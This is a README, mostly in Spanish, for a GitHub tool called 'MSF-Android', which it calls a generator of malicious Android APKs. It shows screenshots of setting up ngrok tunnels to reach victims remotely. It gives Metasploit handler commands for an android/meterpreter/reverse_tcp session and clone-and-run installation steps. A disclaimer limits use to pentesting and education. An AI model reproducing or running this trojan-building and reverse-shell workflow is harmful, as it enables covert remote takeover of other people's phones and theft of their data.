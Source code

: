 # MSF-Android

Generador de APK's maliciosas para Android | local y remoto.

![msf_android](https://user-images.githubusercontent.com/75953873/156858658-57b6bb3f-e399-473f-a673-e83e8573b29b.png)

## 📷 SCREENSHOTS 

### Instalando NGROK:
![download_ngrok](https://user-images.githubusercontent.com/75953873/156858687-ddee2244-982a-4cd7-bff3-d7a0ea9e19f4.png)


### Creando APK:
![ngrok](https://user-images.githubusercontent.com/75953873/156858797-e04b002a-aa7a-45d5-bdab-2a59b076a56a.png)


### Obteniendo enlace **`LOCAL`** && **`REMOTO`**:
![downloadAPK](https://user-images.githubusercontent.com/75953873/156858874-aa842762-05d0-4d7b-831f-18f534e8ecda.png)

### Obteniendo una sesión meterpreter
![exploit](https://user-images.githubusercontent.com/75953873/156859040-6a96a969-cbeb-448e-ab64-07c36780a91b.png)

##### Abrimos una nueva terminal y ejecutamos:
```
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> run
```
![exploit_2](https://user-images.githubusercontent.com/75953873/156859055-666a76c4-d74b-48e4-a262-4f95f6dcebd6.png)


## Instalación / Installation

```
> git clone https://github.com/R3LI4NT/MSF-Android
> cd MSF-Android
> pip3 install -r requirements.txt
> sudo python3 msfandroid.py
```


### Importante

**`ES:`** No me hago responsable del mal uso que se le pueda dar a esta herramienta, úselo para Pentesting o fines educativos.

**`EN:`**  I am not responsible for the misuse that may be given to this tool, use it for Pentesting or educational purposes.
